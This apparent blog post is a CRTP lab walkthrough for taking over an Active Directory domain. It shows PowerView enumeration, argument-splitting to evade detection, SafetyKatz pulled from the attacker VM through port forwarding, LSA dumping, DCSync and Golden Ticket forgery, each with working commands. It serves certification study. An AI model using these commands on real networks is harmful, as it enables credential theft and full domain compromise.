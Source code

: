 ```yaml
---
title: Active Directory (AD) | Exploiting Domain Admin (Part 1)
date: 2024-07-02 00:00:00 +0800
categories: [Cert, CRTP]
tags: [Cert,Active Directory]     ## TAG names should always be lowercase
render_with_liquid: false
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```


## **Step 1: Identifying Machines with Domain Admin Sessions**
To begin our exploitation of domain admin privileges, we first need to identify machines where domain admin accounts are actively logged in. This step is crucial because it allows us to target these machines for further actions, such as stealing tokens or credentials. For this task, we use PowerView, a powerful PowerShell tool that helps in enumerating Active Directory environments. By running the Find-DomainUserLocation command, we can query the Domain Controller to find out which computers have active domain admin sessions. In our example, this command reveals that there is a domain admin session on the dcorp-mgmt server, making it a prime target for our next steps.

```bash
Find-DomainUserLocation
```
![Result](/img/crtp/result6.png){: width="972" height="589" }
_There is a domain admin session on dcorp-mgmt server_

## **Step 2: Extracting Domain Controller Hashes**
In this step, we aim to extract hashes from the domain controller and create a Golden Ticket using Rubeus. A Golden Ticket is a forged Kerberos Ticket Granting Ticket (TGT) that allows an attacker to impersonate any user within the domain, effectively granting near-unlimited access to network resources.

### Start a Process with Domain Admin Privileges
To start, we use an elevated command prompt (Run as administrator) and utilize ArgSplit.bat to encode the asktgt command. This command is part of the Kerberos authentication process, where it requests a TGT for the domain admin account. The TGT is crucial because it allows us to request service tickets for accessing various network resources.

```bash
C:\Windows\system32>C:\AD\Tools\ArgSplit.bat
set "z=t"
set "y=g"
set "x=t"
set "w=k"
set "v=s"
set "u=a"
set "Pwn=%u%%v%%w%%x%%y%%z%"
```

We verify the encoded string to ensure it's correct:
```bash
C:\Windows\system32>echo %Pwn%
asktgt
```

Next, we run Rubeus with the asktgt command using Loader.exe. This step initiates the process of obtaining a TGT for the domain admin account.
```bash
C:\Windows\System32>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

### Copy Loader.exe to the Domain Controller
After acquiring the TGT, we need to copy Loader.exe to the domain controller (dcorp-dc). We use the xcopy command to transfer the file to ensure it's available for our use on the target system.
```bash
C:\Windows\system32>echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y
```

### Use WinRS to Access the Domain Controller
With Loader.exe on the domain controller, we open a remote session to the domain controller using WinRS. This tool allows us to execute commands remotely over the Windows Remote Management (WinRM) service.
```bash
winrs -r:dcorp-dc cmd
```

### Set Up Port Forwarding to download the SafetyKatz
On the domain controller, we set up port forwarding with the netsh interface portproxy command. This step facilitates the download of necessary tools, such as SafetyKatz, by redirecting network traffic to the appropriate address and port.
```bash
C:\Users\svcadmin>netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x
```

### Encode and Execute lsadump::lsa 
Back on the student VM, we use ArgSplit.bat to encode the lsadump::lsa command. This command dumps Local Security Authority (LSA) secrets from memory, including password hashes.
```bash
C:\Windows\system32>C:\AD\Tools\ArgSplit.bat
[!] Argument Limit: 180 characters
[+] Enter a string: lsadump::lsa
set "z=h"
set "y=c"
```

We run the generated commands in the WinRS session on the domain controller to execute SafetyKatz and perform the LSA dump:
```bash
set "Pwn=%o%%p%%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"
C:\Users\svcadmin>C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "%Pwn% /patch" "exit"
```

The output of lsadump::lsa reveals the NTLM hashes and other credentials stored in the LSA:
```bash
mimikatz # lsadump::lsa /patch
```

### Perform a DCSync Attack
To obtain the NTLM hash and AES keys of the krbtgt account, we perform a DCSync attack. This attack simulates the behavior of a domain controller and requests replication of credentials, allowing us to dump password hashes.
```bash
C:\Windows\system32>echo %Pwn%
lsadump::dcsync 

C:\Windows\system32>C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:dcorp\krbtgt" "exit"
```

## **Step 3: ### Generate and Inject a Golden Tickets**


With the krbtgt hash in hand, we generate a Golden Ticket. A Golden Ticket is a powerful tool in an attacker's arsenal, as it allows for the creation of a forged TGT that can impersonate any user within the domain, granting near-unlimited access. We use ArgSplit.bat to encode the golden command:
```bash
C:\AD\Tools>echo %Pwn%
golden
```

Using Rubeus, we create the Golden Ticket with the necessary parameters, including the krbtgt hash and domain information:
```bash
C:\AD\Tools>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /sid:S-1-5-21-719815819-3726368948 /ldap /user:Administrator /printcmd
```

Finally, we inject the Golden Ticket into the current process to gain persistent domain admin access. This is confirmed by checking the username and computer name in the remote session, ensuring we have full administrative control over the domain controller:
```bash
C:\AD\Tools>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948 /pwdlastset:"11/11/2022 6:34:22 AM" /minpassage:1 /logoncount:35 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt
```

Confirm the Golden Ticket injection:
```bash
[+] Ticket successfully imported!
C:\AD\Tools>winrs -r:dcorp-dc cmd
Microsoft Windows [Version 10.0.20348.2227]
(c) Microsoft Corporation. All rights reserved.
C:\Users\Administrator>set username
USERNAME=Administrator
C:\Users\Administrator>set computername
COMPUTERNAME=DCORP-DC
```

